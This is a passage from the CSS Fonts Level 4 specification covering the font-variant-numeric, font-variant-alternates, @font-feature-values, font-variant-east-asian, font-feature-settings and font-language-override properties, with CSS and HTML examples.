```

```css
<numeric-fraction-values> = [ diagonal-fractions | stacked-fractions ]
```

Individual values have the following meanings:

****normal****

: None of the features listed below are enabled.

****lining-nums****

: Enables display of lining numerals (OpenType feature: lnum).

****oldstyle-nums****

: Enables display of old-style numerals (OpenType feature: onum).

****proportional-nums****

: Enables display of proportional numerals (OpenType feature: pnum).

****tabular-nums****

: Enables display of tabular numerals (OpenType feature: tnum).

****diagonal-fractions****

: Enables display of lining diagonal fractions (OpenType feature: frac).

  

****stacked-fractions****

: Enables display of lining stacked fractions (OpenType feature: afrc).

  

****ordinal****

: Enables display of letter forms used with ordinal numbers (OpenType feature: ordn).

  

****slashed-zero****

: Enables display of slashed zeros (OpenType feature: zero).

  

> **Example:** In the case of `ordinal`, although ordinal forms are often the same as superscript forms, they are marked up differently.
>
> For superscripts, the variant property is only applied to the sub-element containing the superscript:
>
> ```
> sup { font-variant-position: super; }
> x<sup>2</sup>
> ```
>
> For ordinals, the variant property is applied to the entire ordinal number rather than just to the suffix (or to the containing paragraph):
>
> ```
> .ordinal { font-variant-numeric: ordinal; }
> <span class="ordinal">17th</span>
> ```
>
> In this case only the "th" will appear in ordinal form, the digits will remain unchanged. Depending upon the typographic traditions used in a given language, ordinal forms may differ from superscript forms. In Italian, for example, ordinal forms sometimes include an underline in the ordinal design.

> **Example:** A simple flank steak marinade recipe, rendered with automatic fractions and old-style numerals:
>
> ```
> .amount { font-variant-numeric: oldstyle-nums diagonal-fractions; }
>
>     <h4>Steak marinade:</h4>
>     <ul>
>       <li><span class="amount">2</span> tbsp olive oil</li>
>       <li><span class="amount">1</span> tbsp lemon juice</li>
>       <li><span class="amount">1</span> tbsp soy sauce</li>
>       <li><span class="amount">1 1/2</span> tbsp dry minced onion</li>
>       <li><span class="amount">2 1/2</span> tsp italian seasoning</li>
>       <li>Salt &amp; pepper</li>
>     </ul>
>
>     <p>Mix the meat with the marinade
>     and let it sit covered in the refrigerator
>     for a few hours or overnight.</p>
> ```
>
> Note that the fraction feature is only applied to values not the entire paragraph. Fonts often implement this feature using contextual rules based on the use of the slash ('/') character. As such, it’s not suitable for use as a paragraph-level style.

#### 6.8.  Alternates and swashes: the `font-variant-alternates` property {#css-fonts-4:font-variant-alternates-prop}

| Field | Value |
| --- | --- |
| Name: | **font-variant-alternates** |
| [Value:](#css-values-4:value-defs) | normal \| [ stylistic(`<font-feature-value-name>`) \|\| historical-forms \|\| styleset(<font-feature-value-name>#) \|\| character-variant(<font-feature-value-name>#) \|\| swash(<font-feature-value-name>) \|\| ornaments(<font-feature-value-name>) \|\| annotation(<font-feature-value-name>) ] |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

```css
<font-feature-index> = <integer>
```

```css
<font-feature-value-name> = <ident>
```

For any given character, fonts can provide a variety of alternate glyphs in addition to the default glyph for that character. This property provides control over the selection of these alternate glyphs.

For many of the property values listed below, several different alternate glyphs are available. How many alternates are available and what they represent is font-specific, so these are each marked **font specific** in the value definitions below. Because the nature of these alternates is font-specific, the `@font-feature-values` rule is used to define values for a specific font family or set of families that associate a font-specific numeric `<font-feature-index>` with a custom `<font-feature-value-name>`, which is then used in this property to select specific alternates:

```
@font-feature-values Noble Script { @swash { swishy: 1; flowing: 2; } }

p {
  font-family: Noble Script;
  font-variant-alternates: swash(flowing); /* use swash alternate #2 */
}
```

When a particular `<font-feature-value-name>` has not been defined for a given family or for a particular feature type, the computed value must be the same as if it had been defined. However, property values that contain these undefined <font-feature-value-name> identifiers must be ignored when choosing glyphs.

```
/* these two style rules are effectively the same */

p { font-variant-alternates: swash(unknown-value); } /* not a defined value, ignored */
p { font-variant-alternates: normal; }
```

This allows values to be defined and used for a given set of font families but ignored if fallback occurs, since the font family name would be different. If a given value is outside the range supported by a given font, the value is ignored. These values never apply to generic font families.

Individual values have the following meanings:

****normal****

: None of the features listed below are enabled.

****historical-forms****

: Enables display of historical forms (OpenType feature: hist).

  

****stylistic(`<font-feature-value-name>`)****

: Enables display of stylistic alternates (font specific, OpenType feature: salt `<font-feature-index>`).

  

****styleset(`<font-feature-value-name>`#)****

: Enables display with stylistic sets (font specific, OpenType feature: ss`<font-feature-index>` OpenType currently defines ss01 through ss20).

  

****character-variant(`<font-feature-value-name>`#)****

: Enables display of specific character variants (font specific, OpenType feature: cv`<font-feature-index>` OpenType currently defines cv01 through cv99).

****swash(`<font-feature-value-name>`)****

: Enables display of swash glyphs (font specific, OpenType feature: swsh `<font-feature-index>`, cswh <font-feature-index>).

  

****ornaments(`<font-feature-value-name>`)****

: Enables replacement of default glyphs with ornaments, if provided in the font (font specific, OpenType feature: ornm `<font-feature-index>`). Some fonts may offer ornament glyphs as alternates for a wide collection of characters; however, displaying arbitrary characters (e.g., alphanumerics) as ornaments is poor practice as it distorts the semantics of the data. Font designers are encouraged to encode all ornaments (except those explicitly encoded in the Unicode Dingbats blocks, etc.) as alternates for the bullet character (U+2022) to allow authors to select the desired glyph using `ornaments()`.

  

****annotation(`<font-feature-value-name>`)****

: Enables display of alternate annotation forms (font specific, OpenType feature: nalt `<font-feature-index>`).

  

#### 6.9.  Defining font specific alternates: the **@font-feature-values** rule {#css-fonts-4:font-feature-values}

Several of the possible values of `font-variant-alternates` listed above are labeled as font specific; a font can define not just a single glyph for the feature, but *multiple* possible glyph variants, and associate each one with a numeric index to let you choose which to turn on.

These numeric indexes are idiosyncratic to each face; a `swsh 1` feature on one font face might turn on the swash version of capital Q, while on another font face it turns on the swash version of the &. Thus, specifying the index in `font-feature-settings` requires that the author know *exactly* which font will be used on an element; if they get it wrong (due to font fallback selecting a different font) they might end up turning on an entirely different, and undesirable, feature to what they wanted! It also means that the author can’t easily turn on similar features for elements with different fonts; they have to individually set different `font-feature-settings` values for each that uses the correct numeric indexes for the desired features.

To fix this issue, the `@font-feature-values` rule lets an author assign, for each font face, a human-friendly name to specific feature indexes. Using these friendly names, an author can easily turn on similar features regardless of the font in use (if they’ve defined that name for all the fonts), and be sure they’re not accidentally turning on unrelated features (as fonts without those names defined for them simply won’t do anything).

> **Example:** Using a commonly named value allows authors to use a single style rule to cover a set of fonts for which the underlying selector is different for each font. If either font in the example below is found, a circled number glyph will be used:
>
> ```
> @font-feature-values Otaru Kisa {
>   @annotation { circled: 1; black-boxed: 3; }
> }
> @font-feature-values Taisho Gothic {
>   @annotation { boxed: 1; circled: 4; }
> }
>
> h3.title {
>   /* circled form defined for both fonts */
>   font-family: Otaru Kisa, Taisho Gothic;
>   font-variant: annotation(circled);
> }
> ```
>
> Trying to turn on the "circled" forms for either font explicitly, using `@font-feature-values`, would require the author know *for certain* which font will be used; if they expected "Otaru Kisa" and wrote `font-feature-settings: "nalt" 1;`, it would turn on "circled" characters in Otara Kisa, but would instead turn on **boxed** characters if the system fell back to Taisho Gothic, as that’s what Taisho Gothic associates with `nalt 1`!

##### 6.9.1. Basic syntax {#css-fonts-4:font-feature-values-syntax}

An `@font-feature-values` rule’s prelude contains a list of font family names, followed by a block containing multiple **feature value blocks**, a special type of subsidiary at-rule. Each feature value block contains declarations mapping author-chosen human-friendly names (such as "flowing") to feature indexes for the associated feature.

Each font feature value has the same meaning as the corresponding value of the `font-variant-alternates` property.

```css
@font-feature-values = @font-feature-values <font-family-name># { <declaration-rule-list> }

<font-feature-value-type> = <@stylistic> | <@historical-forms> | <@styleset> | <@character-variant>
  | <@swash> | <@ornaments> | <@annotation>

@stylistic = @stylistic { <declaration-list> }
@historical-forms = @historical-forms { <declaration-list> }
@styleset = @styleset { <declaration-list> }
@character-variant = @character-variant { <declaration-list> }
@swash = @swash { <declaration-list> }
@ornaments = @ornaments { <declaration-list> }
@annotation = @annotation { <declaration-list> }
```

The `@font-feature-values` prelude is a comma-delimited list of font family names that match the definition of `<font-family-name>` for the `font-family` property. This means that only named font families are allowed; rules that include generic or system fonts in the list of font families are syntax errors. However, if a user agent defines a generic font to be a specific named font (e.g. Helvetica), the settings associated with that family name will be used. If syntax errors occur within the <font-family-name> list, the entire rule `@font-feature-values` rule is invalid and must be ignored.

The `@font-feature-values` block accepts `<declaration-rule-list>` as its contents; these list items are either:

- at-rules named by one of the `<font-feature-value-type>` at-keyword tokens

or

- the `font-display` descriptor.

Specifying the same `<font-feature-value-type>` more than once is valid; their contents are cascaded together. Each feature value block accepts a list of declarations, the **font feature value declarations**, where the declaration’s name can be any css identifier, and the value must be a list of one or more non-negative `<integer>`s.

The feature value blocks accept any declaration name; these names must be `<font-feature-value-name>`, per standard CSS syntax rules, and are case-sensitive (so `foo: 1;` and `FOO: 2` define two different features).

Each declaration’s value in `@annotation`, `@ornaments`, `@stylistic`, `@swash`, must match the grammar `<font-feature-index>`, or else the declaration is invalid and must be ignored.

Each declaration’s value in `@character-variant` must match the grammar `<font-feature-index [0,99]>` <font-feature-index [0,∞]>, or else the declaration is invalid and must be ignored.

Each declaration’s value in `@styleset` must match the grammar `<font-feature-index [0,20]>`+, or else the declaration is invalid and must be ignored.

> **Note:** Each feature name is unique only within a single feature value block. Between different feature value blocks, or the same type of feature value blocks in separate `@font-feature-values` rules, names can be reused without colliding.

For each `<font-family-name>` in the `@font-feature-values` prelude, each font feature value declaration defines a mapping between a (family name, feature block name, declaration name) tuple and the list of one or more integers from the declaration’s value. If the same tuple appears more than once in a document (such as if a single block), the last-defined one is used.

> **Example:** For example, the following all define the exact same set of font feature values:
>
> ```
> /* Default */
> @font-feature-values foo {
>   @swash { pretty: 1; cool: 2; }
> }
>
> /* Repeated declaration names */
> @font-feature-values foo {
>   @swash { pretty: 0; pretty: 1; cool: 2; }
> }
>
> /* Multiple blocks of the same type */
> @font-feature-values foo {
>   @swash { pretty: 1; }
>   @swash { cool: 2; }
> }
>
> /* Multiple rules for the same family */
> @font-feature-values foo {
>   @swash { pretty: 1; }
> }
> @font-feature-values foo {
>   @swash { cool: 2; }
> }
> ```

A syntax error within a font feature value declaration makes the declaration invalid and ignored, but does not invalidate the font feature value block it occurs in. An unknown at-rule within a `@font-feature-values` block (not using one of the predefined list of allowed at-keywords) makes that at-rule invalid and ignored, but does not invalidate the `@font-feature-values` rule.

> **Example:** Rules that are equivalent given syntax error handling:
>
> ```
> @font-feature-values Bongo {
>   @swash { ornate: 1; }
>   annotation { boxed: 4; } /* should be @annotation! */
>   @swash { double-loops: 1; flowing: -1; } /* negative value */
>   @ornaments ; /* incomplete definition */
>   @styleset { double-W: 14; sharp-terminals: 16 1 } /* missing ; */
>   redrum  /* random editing mistake */
> }
> ```
>
> The example above is equivalent to:
>
> ```
> @font-feature-values Bongo {
>   @swash { ornate: 1; }
>   @swash { double-loops: 1; }
>   @styleset { double-W: 14; sharp-terminals: 16 1; }
> }
> ```

If multiple `@font-feature-values` rules are defined for a given family, the resulting values definitions are the union of the definitions contained within these rules. This allows a set of named values to be defined for a given font family globally for a site and specific additions made per-page.

> **Example:** Using both site-wide and per-page feature values:
>
> site.css:
>
> ```
> @font-feature-values Mercury Serif {
>   @styleset {
>     stacked-g: 3; /* "two-storey" versions of g, a */
>     stacked-a: 4;
>   }
> }
> ```
>
> page.css:
>
> ```
> @font-feature-values Mercury Serif {
>   @styleset {
>   geometric-m: 7; /* alternate version of m */
>   }
> }
>
> body {
>   font-family: Mercury Serif, serif;
>
>   /* enable both the use of stacked g and alternate m */
>   font-variant-alternates: styleset(stacked-g, geometric-m);
> }
> ```

##### 6.9.2.  Multi-valued feature value definitions {#css-fonts-4:multi-value-features}

Most font specific functional values of the `font-variant-alternates` property take a single value (e.g. `swash()`) which enables the feature.

```
@font-feature-values Jupiter Serif {
    @swash {
      swishy: 5;     /* implies ss05 = 1 */
      swirly: 2;     /* implies ss02 = 1 */
    }
  }
```

The `character-variant()` property value and the `@character-variant` descriptor allow two values, which enables a feature (from the first value) and sets it to a given (second) value.

```
@font-feature-values MM Greek {
      @character-variant { alpha-2: 1 2; }   /* implies cv01 = 2 */
      @character-variant { beta-3: 2 3; }    /* implies cv02 = 3 */
    }
```

For the `styleset()` property value and `@styleset` rule, multiple values indicate the style sets to be enabled. Values between 1 and 99 enable OpenType features ss01 through ss99. However, the OpenType standard only officially defines ss01 through ss20. For OpenType fonts, values greater than 99 or equal to 0 do not generate a syntax error when parsed but enable no OpenType features.

```
@font-feature-values Mars Serif {
    @styleset {
      alt-g: 1;        /* implies ss01 = 1 */
      curly-quotes: 3; /* implies ss03 = 1 */
      code: 4 5;       /* implies ss04 = 1, ss05 = 1 */
    }

    @styleset {
      dumb: 125;        /* >99, ignored */
    }

    @swash {
      swishy: 3 5;     /* more than 1 value for swash, syntax error */
    }
  }

  p.codeblock {
    /* implies ss03 = 1, ss04 = 1, ss05 = 1 */
    font-variant-alternates: styleset(curly-quotes, code);
  }
```

For `<@character-variant>`, a single value between 1 and 99 indicates the enabling of OpenType feature cv01 through cv99. For OpenType fonts, values greater than 99 or equal to 0 are ignored but do not generate a syntax error when parsed but enable no OpenType features. When two values are listed, the first value indicates the feature used and the second the value passed for that feature. If more than two values are assigned to a given name, a syntax error occurs and the entire feature value definition is ignored.

```
@font-feature-values MM Greek {
    @character-variant { alpha-2: 1 2; }   /* implies cv01 = 2 */
    @character-variant { beta-3: 2 3; }    /* implies cv02 = 3 */
    @character-variant { epsilon: 5 3 6; } /* more than 2 values, syntax error, definition ignored */
    @character-variant { gamma: 12; }      /* implies cv12 = 1 */
    @character-variant { zeta:   20 3; }   /* implies cv20 = 3 */
    @character-variant { zeta-2: 20 2; }   /* implies cv20 = 2 */
    @character-variant { silly: 105; }     /* >99, ignored */
    @character-variant { dumb: 323 3; }    /* >99, ignored */
  }

  #title {
    /* use the third alternate beta, first alternate gamma */
    font-variant-alternates: character-variant(beta-3, gamma);
  }

  p {
    /* zeta-2 follows zeta, implies cv20 = 2  */
    font-variant-alternates: character-variant(zeta, zeta-2);
  }

  .special {
    /* zeta follows zeta-2, implies cv20 = 3  */
    font-variant-alternates: character-variant(zeta-2, zeta);
  }
```


Byzantine seal text displayed with character variants

> **Example:** In the figure above, the text in red is rendered using a font containing character variants that mimic the character forms found on a Byzantine seal from the 8th century A.D. Two lines below is the same text displayed in a font without variants. Note the two variants for U and N used on the seal.
>
> ```
> @font-feature-values Athena Ruby {
>       @character-variant {
>         leo-B: 2 1;
>         leo-M: 13 3;
>         leo-alt-N: 14 1;
>         leo-N: 14 2;
>         leo-T: 20 1;
>         leo-U: 21 2;
>         leo-alt-U: 21 4;
>       }
>     }
>
>     p {
>       font-variant: discretionary-ligatures
>       character-variant(leo-B, leo-M, leo-N, leo-T, leo-U);
>     }
>
>     span.alt-N {
>       font-variant-alternates: character-variant(leo-alt-N);
>     }
>
>     span.alt-U {
>       font-variant-alternates: character-variant(leo-alt-U);
>     }
>
>     <p>ENO....UP͞RSTU<span class="alt-U">U</span>͞<span class="alt-U">U</span>ΚΑΙTỤẠG̣IUPNS</p>
>
>     <p>LEON|ΚΑΙCONSTA|NTI<span class="alt-N">N</span>OS..|STOIBAṢ.|LIṢROM|AIO<span class="alt-N">N</span></p>
> ```

#### 6.10.  East Asian text rendering: the `font-variant-east-asian` property {#css-fonts-4:font-variant-east-asian-prop}

| Field | Value |
| --- | --- |
| Name: | **font-variant-east-asian** |
| [Value:](#css-values-4:value-defs) | normal \| [ `<east-asian-variant-values>` \|\| `<east-asian-width-values>` \|\| ruby ] |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Allows control of glyph substitution and sizing in East Asian text.

```css
<east-asian-variant-values> = [ jis78 | jis83 | jis90 | jis04 | simplified | traditional ]
```

```css
<east-asian-width-values>   = [ full-width | proportional-width ]
```

Individual values have the following meanings:

****normal****

: None of the features listed below are enabled.

****jis78****

: Enables rendering of JIS78 forms (OpenType feature: jp78).

  

****jis83****

: Enables rendering of JIS83 forms (OpenType feature: jp83).

****jis90****

: Enables rendering of JIS90 forms (OpenType feature: jp90).

****jis04****

: Enables rendering of JIS2004 forms (OpenType feature: jp04).

  The various JIS variants reflect the glyph forms defined in different Japanese national standards. Fonts generally include glyphs defined by the most recent national standard, but it’s sometimes necessary to use older variants, to match signage for example.

****simplified****

: Enables rendering of simplified forms (OpenType feature: smpl).

****traditional****

: Enables rendering of traditional forms (OpenType feature: trad).

  The `simplified` and `traditional` values allow control over the glyph forms for characters which have been simplified over time but for which the older, traditional form is still used in some contexts. The exact set of characters and glyph forms will vary to some degree by the context for which a given font was designed.

  

****full-width****

: Enables rendering of full-width variants (OpenType feature: fwid).

****proportional-width****

: Enables rendering of proportionally-spaced variants (OpenType feature: pwid).

  

****ruby****

: Enables display of ruby variant glyphs (OpenType feature: ruby). Since ruby text is generally smaller than the associated body text, font designers can design special glyphs for use with ruby that are more readable than scaled down versions of the default glyphs. Only glyph selection is affected, there is no associated font scaling or other change that affects line layout.

  The red ruby text below is shown with default glyphs (top) and with ruby variant glyphs (bottom). Note the slight difference in stroke thickness.

  

#### 6.11.  Overall shorthand for font rendering: the `font-variant` property {#css-fonts-4:font-variant-prop}

| Field | Value |
| --- | --- |
| Name: | **font-variant** |
| [Value:](#css-values-4:value-defs) | normal \| none \| [ [ `<common-lig-values>` \|\| `<discretionary-lig-values>` \|\| `<historical-lig-values>` \|\| `<contextual-alt-values>` ] \|\| [ small-caps \| all-small-caps \| petite-caps \| all-petite-caps \| unicase \| titling-caps ] \|\| [ stylistic(`<font-feature-value-name>`) \|\| historical-forms \|\| styleset(<font-feature-value-name>#) \|\| character-variant(<font-feature-value-name>#) \|\| swash(<font-feature-value-name>) \|\| ornaments(<font-feature-value-name>) \|\| annotation(<font-feature-value-name>) ] \|\| [ `<numeric-figure-values>` \|\| `<numeric-spacing-values>` \|\| `<numeric-fraction-values>` \|\| ordinal \|\| slashed-zero ] \|\| [ `<east-asian-variant-values>` \|\| `<east-asian-width-values>` \|\| ruby ] \|\| [ sub \| super ] \|\| [ text \| emoji \| unicode ] ] |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `font-variant` property is a shorthand for all font-variant subproperties:

- `font-variant-ligatures`
- `font-variant-position`
- `font-variant-caps`
- `font-variant-numeric`
- `font-variant-alternates`
- `font-variant-east-asian`
- `font-variant-emoji`

The value **normal** resets all subproperties of `font-variant` to their initial value. The **none** value sets `font-variant-ligatures` to 'font-variant-ligatures/none' and resets all other font feature properties to their initial value. Like other shorthands, using `font-variant` resets unspecified `font-variant` subproperties to their initial values.

It does not reset the values of `font-language-override`, `font-feature-settings` or `font-variation-settings`.

#### 6.12.  Low-level font feature settings control: the `font-feature-settings` property {#css-fonts-4:font-feature-settings-prop}

| Field | Value |
| --- | --- |
| Name: | **font-feature-settings** |
| [Value:](#css-values-4:value-defs) | normal \| `<feature-tag-value>`# |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property provides low-level control over OpenType font features. It is intended as a way of providing access to font features that are not widely used but are needed for a particular use case.

> **Advisement:** Authors should *not* use `font-feature-settings` to set any of the font features in the table below. Instead, please use the higher-level replacement properties, because:
>
> 1. The higher-level properties cascade individually. You can set one without setting the whole `font-feature-settings` list
> 2. Some higher-level properties can be synthesized for fonts that do not support the font feature.
>
> | If you want to set this font feature | then use this *instead of* `font-feature-settings` | Notes |
> | --- | --- | --- |
> | Kerning (`kern`) or Vertical Kerning (`vkrn`) | `font-kerning`: `normal` | The `font-kerning` property will set the `kern` or `vkrn` feature depending on the `writing-mode`. |
> | Standard Ligatures (`liga`) or Contextual Ligatures (`clig`) | `font-variant-ligatures`: `common-ligatures` |  |
> | Discretionary Ligatures (`dlig`) | `font-variant-ligatures`: `discretionary-ligatures` |  |
> | Historical Ligatures (`hlig`) | `font-variant-ligatures`: `historical-ligatures` |  |
> | Contextual Alternates (`calt`) | `font-variant-ligatures`: `contextual` |  |
> | Subscript (`subs`) | `font-variant-position`: `sub` |  |
> | Superscript (`sups`) | `font-variant-position`: `super` |  |
> | Small Capitals (`smcp`) | `font-variant-caps`: `small-caps` |  |
> | Small Capitals From Capitals (`c2sc`) | `font-variant-caps`: `all-small-caps` |  |
> | Petite Capitals (`pcap`) | `font-variant-caps`: `petite-caps` |  |
> | Petite Capitals From Capitals (`c2pc`) | `font-variant-caps`: `all-petite-caps` |  |
> | Unicase (`unic`) | `font-variant-caps`: `unicase` |  |
> | Titling (`titl`) | `font-variant-caps`: `titling-caps` |  |
> | Lining Figures (`lnum`) | `font-variant-numeric`: `lining-nums` |  |
> | Oldstyle Figures (`onum`) | `font-variant-numeric`: `oldstyle-nums` |  |
> | Proportional Figures (`pnum`) | `font-variant-numeric`: `proportional-nums` |  |
> | Tabular Figures (`tnum`) | `font-variant-numeric`: `tabular-nums` |  |
> | Fractions (`frac`) | `font-variant-numeric`: `diagonal-fractions` |  |
> | Alternative Fractions (`afrc`) | `font-variant-numeric`: `stacked-fractions` |  |
> | Ordinals (`ordn`) | `font-variant-numeric`: `ordinal` |  |
> | Slashed Zero (`zero`) | `font-variant-numeric`: `slashed-zero` |  |
> | Historical Forms (`hist`) | `font-variant-alternates`: `historical-forms` |  |
> | Stylistic Alternates (`salt`) | `font-variant-alternates`: `stylistic()` | Define which alternate gets used by making an `@font-feature-values` rule |
> | Character Variant 1 - Character Variant 99 (`cv01` - `cv99`) | `font-variant-alternates`: `character-variant()` | Define which character variant gets used by making an `@font-feature-values` rule |
> | Swash (`swsh`) or Contextual Swash (`cswh`) | `font-variant-alternates`: `swash()` | Define which swash gets used by making an `@font-feature-values` rule |
> | Ornaments (`ornm`) | `font-variant-alternates`: `ornaments()` | Define which ornament gets used by making an `@font-feature-values` rule |
> | Alternate Annotation Forms (`nalt`) | `font-variant-alternates`: `annotation()` | Define which annotation gets used by making an `@font-feature-values` rule |
> | JIS78 Forms (`jp78`) | `font-variant-east-asian`: `jis78` |  |
> | JIS83 Forms (`jp83`) | `font-variant-east-asian`: `jis83` |  |
> | JIS90 Forms (`jp90`) | `font-variant-east-asian`: `jis90` |  |
> | JIS2004 Forms (`jp04`) | `font-variant-east-asian`: `jis04` |  |
> | Simplified Forms (`smpl`) | `font-variant-east-asian`: `simplified` |  |
> | Traditional Forms (`trad`) | `font-variant-east-asian`: `traditional` |  |
> | Full Widths (`fwid`) | `font-variant-east-asian`: `full-width` |  |
> | Proportional Widths (`pwid`) | `font-variant-east-asian`: `proportional-width` |  |
> | Ruby Notation Forms (`ruby`) | `font-variant-east-asian`: `ruby` |  |

> **Example:** For example, there is no font-variant value to control Scientific Inferiors (small numerals used in chemical formulae). Readability is enhanced by using them, so they must be enabled using font-feature-settings:
>
> ```
> .chem {
>   font-feature-settings: 'sinf'
> }
> ```
>
> 
>
> Scientific inferiors improve readability of chemical formulae

> **Note:** The entire property value is set at once. Unlike the font-variant properties, there is no way to modify the inherited value by adding or removing individual features.

A value of **normal** means that no change in glyph selection or positioning occurs due to this property.

Feature tag values have the following syntax:

```css
<feature-tag-value> = <opentype-tag> [ <integer [0,∞]> | on | off ]?
<opentype-tag> = <string>
```

The `<opentype-tag>` is a case-sensitive OpenType feature tag. As specified in the OpenType specification [OPENTYPE], feature tags contain four ASCII characters. Tag strings longer or shorter than four characters, or containing characters outside the U+20–7E codepoint range are invalid. Feature tags need only match a feature tag defined in the font, so they are not limited to explicitly registered OpenType features. Fonts defining custom feature tags should follow the [tag name rules](https://www.microsoft.com/typography/otspec/featuretags.htm) defined in the OpenType specification [OPENTYPE-FEATURES].

Feature tags not present in the font are ignored; a user agent must not attempt to synthesize fallback behavior based on these feature tags. The one exception is that user agents may synthetically support the kern feature with fonts that contain kerning data in the form of a `kern` table but lack kern feature support in the `GPOS` table.

> **Note:** In general, authors should use the `font-kerning` property to explicitly enable or disable kerning since this property always affects fonts with either type of kerning data.

If present, a value indicates an index used for glyph selection. An `<integer>` value must be 0 or greater. A value of 0 indicates that the feature is disabled. For boolean features, a value of 1 enables the feature. For non-boolean features, a value of 1 or greater enables the feature and indicates the feature selection index. A value of **on** is synonymous with 1 and **off** is synonymous with 0. If the value is omitted, a value of 1 is assumed.

The computed value of font-feature-settings is a map, so any duplicates in the specified value must not be preserved. If the same feature tag appears more than once, the value associated with the last appearance supersedes any previous value for that axis.

The computed value contains the de-duplicated feature tags, sorted in ascending order by code unit.

> **Example:** ```
> font-feature-settings: "sinf" 1;       /* sinf=1 enable Scientific Inferiors */
> font-feature-settings: "sinf" on;      /* sinf=1 enable Scientific Inferiors */
> font-feature-settings: 'sinf';         /* sinf=1 enable Scientific Inferiors */
> font-feature-settings: "sinf" off;     /* sinf=0 disable Scientific Inferiors */
> font-feature-settings: "sinf", 'twid'; /* sinf=1, twid=1 enable Scientific Inferiors and Third Widths */
> font-feature-settings: "sinf" "twid";  /* invalid, need a comma-delimited list */
> font-feature-settings: "silly" off;    /* invalid, tag too long */
> font-feature-settings: "PKRN";         /* PKRN=1 enable custom feature */
> font-feature-settings: sinf;           /* invalid, tag must be a string */
> ```

When values greater than the range supported by the font are specified, the behavior is explicitly undefined. For boolean features, in general these will enable the feature. For non-boolean features, out of range values will in general be equivalent to a 0 value. However, in both cases the exact behavior will depend upon the way the font is designed (specifically, which type of lookup is used to define the feature).

Implementations may choose to ignore turning off features which the OpenType specification says are always required, such as required ligatures "rlig".

Although specifically defined for OpenType feature tags, feature tags for other modern font formats that support font features may be added in the future. Where possible, features defined for other font formats should attempt to follow the pattern of registered OpenType tags.

> **Example:** The Japanese text below will be rendered with half-width kana characters:
>
> ```
> body { font-feature-settings: "hwid"; /* Half-width OpenType feature */ }
>
> <p>毎日カレー食べてるのに、飽きない</p>
> ```

#### 6.13. Font language override: the `font-language-override` property {#css-fonts-4:font-language-override-prop}

| Field | Value |
| --- | --- |
| Name: | **font-language-override** |
| [Value:](#css-values-4:value-defs) | normal \| `<string>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified string or the keyword `none` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Normally, authors can control the use of language-specific glyph substitutions and positioning by setting the content language of an element, as [described above](#css-fonts-4:language-specific-support):

> **Example:** ```
> <!-- Display text using S'gaw Karen specific features -->
>
>     <p lang="ksw">...</p>
> ```

In some cases, authors may need to specify a language system that differs from the content language, for example due to the need to mimic another language’s typographic traditions. The `font-language-override` property allows authors to explicitly specify the language system of the font, overriding the language system implied by the content language.

Values have the following meanings:

****normal****

: specifies that when rendering with OpenType fonts, the content language of the element is used to infer the OpenType language system

****`<string>`****

: single four-character case-sensitive OpenType [language system tag](https://www.microsoft.com/typography/otspec/languagetags.htm), specifies the OpenType language system to be used instead of the language system implied by the language of the element. If the string is shorter than four characters, it is padded at the end with space (U+0020) characters such that the length is 4, before being matched.

Unknown OpenType language system tags are silently ignored, and do not affect glyph selection and placement.

> **Example:** The [Universal Declaration of Human Rights](https://www.un.org/en/about-us/universal-declaration-of-human-rights) has been translated into a wide variety of languages. In Turkish, Article 9 of this document might be marked up as below:
>
> ```
> <body lang="tr">
>     <h4>Madde 9</h4>
>     <p>Hiç kimse keyfi olarak tutuklanamaz, alıkonulanamaz veya sürülemez.</p>
> ```
>
> Here the user agent uses the value of the `lang` attribute when rendering text and appropriately renders this text without 'fi' ligatures. There is no need to use the `font-language-override` property.
>
> However, a given font may lack support for a specific language. In this situation authors may need to use the typographic conventions of a related language that are supported by that font:
>
> ```
> <body lang="mk">     <!-- Macedonian lang code -->
>     body { font-language-override: "SRB"; /* Serbian OpenType language tag */ }
>
>     <h4>Члeн 9</h4>
>     <p>Никoj чoвeк нeмa дa бидe пoдлoжeн нa прoизвoлнo aпсeњe, притвoр или прoгoнувaњe.</p>
> ```
>
> As the content creator knows that font specified supports Serbian, the Macedonian text here will be rendered using Serbian typographic conventions.

### 7.  Font Feature and Variation Resolution {#css-fonts-4:font-feature-variation-resolution}

As described in the previous section, font features and variations can be enabled in a variety of ways, either via the use of `font-variant`, `font-feature-settings`, or `font-variation-settings` in a style rule or within an `@font-face` rule. The resolution order for the union of these settings is defined below. Features defined via CSS properties are applied on top of layout engine default features.

#### 7.1.  Default features {#css-fonts-4:default-features}

